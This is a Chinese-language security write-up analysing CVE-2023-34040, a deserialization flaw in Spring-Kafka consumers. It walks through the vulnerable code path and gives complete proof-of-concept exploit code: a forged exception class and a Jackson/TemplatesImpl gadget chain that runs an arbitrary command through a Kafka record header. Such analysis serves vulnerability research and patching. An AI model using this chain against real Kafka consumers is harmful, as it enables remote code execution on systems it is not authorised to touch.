# Preface

官方的描述：在受影响的版本，若存在不安全的配置，攻击者能够构造恶意的序列化对象，在反序列化记录头时触发。

漏洞条件：

* 用户没有配置`ErrorHandlingDeserializer`
* 用户显式设置`checkDeserExWhenKeyNull`和`checkDeserExWhenValueNull`为`true`
* 用户允许未受信任源往Kafka主题发布消息

攻击对象：

* consumer

影响版本：

* Spring-Kafka
  * 2.8.1 ~ 2.9.10
  * 3.0.0 ~ 3.0.9

# Kafka Intro

Kafka是一个分布式的基于发布/订阅模式的消息队列

发布订阅模式的工作原理：

* `Publisher`将消息发布到`Topic`中，同时有多个`Subscriber`消费该消息
* 和`Peer to Peer`不同，发布到`Topic`的消息会被多个订阅者消费



* **Topic**：消息的主题，可以理解为消息队列，kafka的数据就保存在topic。在每个`broker`可以创建多个topic。
* **Partition**：Topic的分区，每个topic可以有多个分区，分区的作用是做负载，提高kafka的吞吐量。同一个topic在不同的分区的数据是不重复的，partition 的表现形式就是一个一个的文件夹。分区的意思就是说，如果你创建的topic有5个分区，当你一次性向kafka中推 1000 条数据时，这1000条数据默认会分配到5个分区中，其中每个分区存储200条数据
* **Consumer Group**：将多个消费者组成一个消费者组，在kafka的设计中同一个分区的数据只能被消费者组中的某一个消费者消费。同一个消费者组的消费者可以消费同一个topic的不同分区的数据



Kafka的记录也称为`Message`或`Event`，由`Header`和`Body`组成。头部存储如主题、分区、时间戳等元数据，主体为键值对。


# Quick Start

Kafka环境搭建，依赖于zookeeper

如果不是在本机搭建，下面的`KAFKA_ADVERTISED_LISTENERS`改成自己的IP；本机搭建的话localhost就好了

```yaml
version: '2'
services:
  zookeeper:
    image: confluentinc/cp-zookeeper:latest
    environment:
      ZOOKEEPER_CLIENT_PORT: 2181
      ZOOKEEPER_TICK_TIME: 2000
    ports:
      - 22181:2181
  
  kafka:
    image: confluentinc/cp-kafka:latest
    depends_on:
      - zookeeper
    ports:
      - 29092:29092
    environment:
      KAFKA_BROKER_ID: 1
      KAFKA_ZOOKEEPER_CONNECT: zookeeper:2181
      KAFKA_ADVERTISED_LISTENERS: PLAINTEXT://192.168.73.129:29092
      KAFKA_LISTENER_SECURITY_PROTOCOL_MAP: PLAINTEXT:PLAINTEXT,PLAINTEXT_HOST:PLAINTEXT
      KAFKA_INTER_BROKER_LISTENER_NAME: PLAINTEXT
      KAFKA_OFFSETS_TOPIC_REPLICATION_FACTOR: 1
```

客户端（生产者和消费者）跟着官方文档来，以2.9.10为例

https://docs.spring.io/spring-kafka/docs/2.9.10/reference/html/#getting-started

使用Spring Initializr快速构造项目，它会自动寻找与spring版本对应的spring-kafka版本



`Producer`：

```java
package com.demo.producer;

import org.apache.kafka.clients.admin.NewTopic;
import org.springframework.boot.ApplicationRunner;
import org.springframework.boot.SpringApplication;
import org.springframework.boot.autoconfigure.SpringBootApplication;
import org.springframework.context.annotation.Bean;
import org.springframework.kafka.config.TopicBuilder;
import org.springframework.kafka.core.KafkaTemplate;

@SpringBootApplication
public class ProducerApplication {

    public static void main(String[] args) {
        SpringApplication.run(ProducerApplication.class, args);
    }

    @Bean
    public NewTopic topic() {
        return TopicBuilder.name("myTopic")
                .partitions(10)
                .replicas(1)
                .build();
    }

    @Bean
    public ApplicationRunner runner(KafkaTemplate<String, String> template) {
        return args -> {
            template.send("myTopic", "test");
        };
    }
}
```

```properties
server.port=8080
spring.kafka.bootstrap-servers=192.168.73.129:29092
```

`Consumer`：

```java
package com.demo.comsumer;

import org.apache.kafka.clients.admin.NewTopic;
import org.springframework.boot.SpringApplication;
import org.springframework.boot.autoconfigure.SpringBootApplication;
import org.springframework.context.annotation.Bean;
import org.springframework.kafka.annotation.KafkaListener;
import org.springframework.kafka.config.TopicBuilder;

@SpringBootApplication
public class ConsumerApplication {

    public static void main(String[] args) {
        SpringApplication.run(ConsumerApplication.class, args);
    }
    @Bean
    public NewTopic topic() {
        return TopicBuilder.name("myTopic")
            .partitions(10)
            .replicas(1)
            .build();
    }
    @Autowired
    private KafkaProperties kafkaProperties;

    @Bean
    public ConcurrentKafkaListenerContainerFactory<String, String> kafkaListenerContainerFactory() {
        Map<String, Object> props = new HashMap<>();
        props.put(ConsumerConfig.BOOTSTRAP_SERVERS_CONFIG, kafkaProperties.getBootstrapServers());
        props.put(ConsumerConfig.KEY_DESERIALIZER_CLASS_CONFIG, StringDeserializer.class);
        props.put(ConsumerConfig.VALUE_DESERIALIZER_CLASS_CONFIG, StringDeserializer.class);

        ConcurrentKafkaListenerContainerFactory<String, String> factory = new ConcurrentKafkaListenerContainerFactory<>();
        factory.setConsumerFactory(new DefaultKafkaConsumerFactory<>(props));
        factory.getContainerProperties().setCheckDeserExWhenKeyNull(true);
        factory.getContainerProperties().setCheckDeserExWhenValueNull(true);
        return factory;
    }

    @KafkaListener(id = "myId", topics = "myTopic")
    public void listen(String in) {
        System.out.println(in);
    }
}
```

```properties
server.port=8088
spring.kafka.consumer.auto-offset-reset=earliest
spring.kafka.bootstrap-servers=192.168.73.129:29092
```

启动生产者和消费者，消费者端成功接收到消息



# Analysis

由官方文档可知，当设置`checkDeserExWhenKeyNull`和`checkDeserExWhenValueNull`为`true`，若接收到的消息`key`或`value`为空，会检查`DeserializationException`头部



`org.springframework.kafka.listener.ListenerUtils#getExceptionFromHeader`

从记录头里获取`KEY_DESERIALIZER_EXCEPTION_HEADER`（即这里的`springDeserializerExceptionKey`）对应的值，并尝试反序列化得到`DeserializationException`对象。



调用栈往上走两步，这里判断记录的`key`或`value`是否为`null`，以及对应的`checkNullKeyForExceptions`或`checkNullValueForExceptions`是否开启



可以发现我们用`MessageBuilder.withPayload`构造的消息只有value没有key



进入`byteArrayToDeserializationException`



构造了一个`ObjectInputStream`对象来对记录头的值进行反序列化，重写了`resolveClass`方法

反序列化的时候会判断首个类的类名是否为`org.springframework.kafka.support.serializer.DeserializationException`

第一次判断后`first`就被设为`false`了，也就是其内部嵌套的类就没有这个限制了。

但是看一下这个`DeserializationException`的属性成员，发现没有可以被利用的成员



这里使用一个取巧的方法，直接在当前classpath下放上我们修改后的`DeserializationException`类，为不和项目依赖的类冲突，把包名的开头`org`修改为`xrg`，后面再把序列化得到数据中的包名改回来。



但存在一个问题，修改原有类后会造成`serialVersionUID`的变化，反序列化时会检测这个值，若和接收方计算的不一致就会抛出异常。

我们可以在修改后的类里把`serialVersionUID`写死了。

```java
import org.springframework.kafka.support.serializer.DeserializationException;

import java.io.ObjectStreamClass;
import java.lang.reflect.Constructor;

public class Calc {
    public static void main(String[] args) throws Exception {
        Class<?> clazz = Class.forName("java.io.ObjectStreamClass");
        Constructor<?> con = clazz.getDeclaredConstructor(Class.class);
        con.setAccessible(true);
        ObjectStreamClass osc = (ObjectStreamClass) con.newInstance(DeserializationException.class);
        System.out.println(osc.getSerialVersionUID());
    }
}
```

```java
package xrg.springframework.kafka.support.serializer;

import java.io.Serializable;

public class DeserializationException implements Serializable {

    private static final long serialVersionUID = 8280022391259546509L;

    private Object evil;

    public DeserializationException(Object evil) {
        this.evil = evil;
    }
}
```

既然是`spring-kafka`的应用，大概率配有`spring-boot-starter-web`依赖（别问为什么，因为官方提供的Demo也依赖了spring-web）

那就打Spring-Web自带的Jackson利用链，参考网上师傅修改过后的稳定版本的链子。

修改生产者的代码：

```java
static {
    try {
        CtClass ctClass = ClassPool.getDefault().get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod writeReplace = ctClass.getDeclaredMethod("writeReplace");
        ctClass.removeMethod(writeReplace);
        ctClass.toClass();
    } catch (Exception e) {
        throw new RuntimeException(e);
    }
}
@Bean
public ApplicationRunner runner(KafkaTemplate<Object, Object> template) {
    return args -> {
        ProducerRecord<Object,Object> producerRecord = new ProducerRecord<>("myTopic","key",null);
        producerRecord.headers().add("springDeserializerExceptionValue", PayloadGeneration.getPayload("calc"));
        template.send(MessageBuilder
                      .withPayload("whatever")
                      .setHeader(KafkaHeaders.TOPIC, "myTopic")
                      .setHeader(SerializationUtils.KEY_DESERIALIZER_EXCEPTION_HEADER, PayloadGeneration.getPayload("calc")).build());
    };
}
```

```java
package com.demo.producer;

import com.fasterxml.jackson.databind.node.POJONode;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;
import org.springframework.aop.framework.AdvisedSupport;
import xrg.springframework.kafka.support.serializer.DeserializationException;

import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;

public class PayloadGeneration {
    public static byte[] ser(final Object obj) throws Exception {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream  oos= new ObjectOutputStream(baos);
        oos.writeObject(obj);
        return baos.toByteArray();
    }
    public static byte[] getPayload(String cmd) throws Exception {
        POJONode node = new POJONode(makeTemplatesImplAopProxy(cmd));
        BadAttributeValueExpException val = new BadAttributeValueExpException(null);
        setFieldValue(val, "val", node);

        DeserializationException exception = new DeserializationException(val);
        byte[] data = ser(exception);
        data[8] = "o".getBytes()[0]; // AC ED 00 05 74 00 05 68
        return data;
    }
    public static Object makeTemplatesImpl(String cmd) throws Exception{
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.makeClass("a");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
        constructor.setBody("Runtime.getRuntime().exec(\"" + cmd + "\");");
        clazz.addConstructor(constructor);
        byte[][] bytes = new byte[][]{clazz.toBytecode()};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates, "_bytecodes", bytes);
        setFieldValue(templates, "_name", "test");
        setFieldValue(templates, "_tfactory", null);
        return templates;
    }
    public static Object makeTemplatesImplAopProxy(String cmd) throws Exception {
        AdvisedSupport advisedSupport = new AdvisedSupport();
        advisedSupport.setTarget(makeTemplatesImpl(cmd));
        Constructor constructor = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy").getConstructor(AdvisedSupport.class);
        constructor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(advisedSupport);
        Object proxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Templates.class}, handler);
        return proxy;
    }

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
}
```

# Patch



限制记录头只能是`DeserializationException`类型，客户端控制不了。

# Ref

* https://spring.io/security/cve-2023-34040
* https://github.com/Contrast-Security-OSS/Spring-Kafka-POC-CVE-2023-34040
* https://xz.aliyun.com/t/12846
* https://github.com/spring-projects/spring-kafka/commit/25ac793a78725e2ca4a3a2888a1506a4bfcf0c9d
* https://blog.pyn3rd.com/2023/09/15/CVE-2023-34040-Spring-Kafka-Deserialization-Remote-Code-Execution/

